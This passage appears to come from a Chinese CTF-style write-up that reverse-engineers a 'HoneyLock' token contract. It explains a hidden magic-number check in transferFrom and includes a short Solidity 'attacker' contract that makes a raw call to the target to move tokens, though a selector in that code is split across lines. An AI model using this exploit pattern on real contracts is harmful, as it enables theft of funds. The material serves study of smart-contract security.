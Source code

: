```
        memory[0x20:0x40] = 0x03;
        var temp8 = keccak256(memory[0x00:0x40]);
        memory[0x00:0x20] = msg.sender;
        memory[0x20:0x40] = temp8;
        storage[keccak256(memory[0x00:0x40])] = temp7;
        return 0x01;
    }
 
```

这个函数中我们能看到需要传入四个参数，与`0xffffffffffffffffffffffffffffffffffffffff `进行相与操作意味着这是某个地址。

而`if (arg2 > storage[keccak256(memory[0x00:0x40])]) { revert(memory[0x00:0x00]); }`代表ERC20中的授权参数，我们从approve中能够看出该存储位置为0x03，此函数中的变量存储位置同样为0x03，所以为同一个参数。

即类似于：`require(_value <= allowed[_from][msg.sender]);`


而：`if (storage[0x02] + msg.sender != arg3) { revert(memory[0x00:0x00]); }`代表了0x02位置的参数+msg.sender需要 == arg3参数。

而位置0x02的参数可以通过如下方法进行查询，即为 `53231323`。


![image.png](https://upload-images.jianshu.io/upload_images/7862980-740d46a61e348859.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

所以我们需要传入 53231323+uint(msg.sender)。

之后我们尝试上述方案。

首先使用账户调用`takeMoney`。

![image.png](https://upload-images.jianshu.io/upload_images/7862980-e38c7a52c37aad16.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)


![image.png](https://upload-images.jianshu.io/upload_images/7862980-019009ef6a8ea9b3.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)


这个时候就满足`require (takeRecord[msg.sender] == true);`。

之后我们需要将钱转出。

```
contract attacker{
    HoneyLock target = HoneyLock(0xb27ad1cab9e54cd6bb34b41bacb0fb0e139208eb);

    function attack(address _from, address _to, uint256 _value) public{
        bytes4 method = 0x5ad0
ae39;
        // target.transferFrom(_from, _to, _value,53231323+uint256(this));
        target.call(method,_from,_to,_value,53231323+uint256(this));
    } 
}
```

所以我们在`0x9b9a30b7df47b9dbe0ec7d4bd52aaae4465f2ebe`账户下调用approve函数：

传入参数：`0x7083bcda08538cba3437d98ad01edfa73e2e2276,1000`
即赋予0x7083bcda08538cba3437d98ad01edfa73e2e2276代替账户转账1000的权利。
